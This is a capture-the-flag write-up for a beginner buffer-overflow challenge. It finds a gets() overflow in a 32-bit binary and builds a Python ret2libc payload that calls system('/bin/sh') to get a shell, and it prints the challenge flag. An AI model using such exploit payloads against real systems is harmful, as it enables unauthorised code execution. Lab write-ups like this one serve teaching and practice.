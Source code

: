 ## **Challenge Name**: Buffer Overflow 101  
**Category**: Binary Exploitation  
**Points**: 150  
**Description**:  
This challenge provides an executable file and hints at exploiting a basic buffer overflow vulnerability. The goal is to gain a shell.

---

### **Task Description**  

The challenge file `vuln` is a 32-bit ELF binary. It contains a vulnerable function that allows for a buffer overflow.  
Below is the task description in the provided challenge text:

```tcolorbox
The program takes user input without proper bounds checking. Exploit this to execute the shellcode and get the flag.
```

---

### **Technical Analysis**

#### **Step 1: File Information**  
First, I ran the `file` command to identify the binary type:  
```bash
file vuln
```
**Output**:  
```
vuln: ELF 32-bit LSB executable, Intel 80386, dynamically linked
```

#### **Step 2: Decompilation and Vulnerability Search**  
I loaded the binary into `Ghidra` and inspected the function `vulnerable_function()`. The code revealed:  

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
    printf("Hello, %s!", buffer);
}
```

**Key Observations**:  
- The `gets()` function is used, which doesn't check input bounds.  
- This allows for overwriting the return address on the stack.  

---

### **Exploit Development**

#### **Step 3: Determine the Offset**  
Using `gdb-peda`, I determined the offset to the return address:  
```bash
pattern_create 100
run
pattern_offset <crashing_address>
```

**Offset**: 76 bytes.

#### **Step 4: Identify System Address**  
The binary was dynamically linked. I used `readelf` to find the address of `system`:  
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

#### **Step 5: Create the Exploit Payload**  
The payload has three parts:  
1. Padding to fill the buffer (76 bytes).  
2. Address of `system()` function.  
3. Address of `/bin/sh` string in memory.  

Final payload:  

```python
import struct

padding = b"A" * 76
system_addr = struct.pack("<I", 0xf7e4c850)  # Address of system()
bin_sh_addr = struct.pack("<I", 0xf7f897ec)  # Address of /bin/sh
payload = padding + system_addr + b"JUNK" + bin_sh_addr

with open("payload", "wb") as f:
    f.write(payload)
```

#### **Step 6: Exploit Execution**  
I passed the payload into the binary:  
```bash
cat payload | ./vuln
```

**Result**:  
I obtained a shell. Running `cat flag.txt` revealed the flag.  

---

### **Flag**  

```
CTF{BUFFER_OVERFLOW_MASTER}
```

---

### **Learnings**  
- Always check for unsafe functions like `gets()` in binary exploitation challenges.  
- Dynamically linked binaries require resolving libc function addresses manually.  
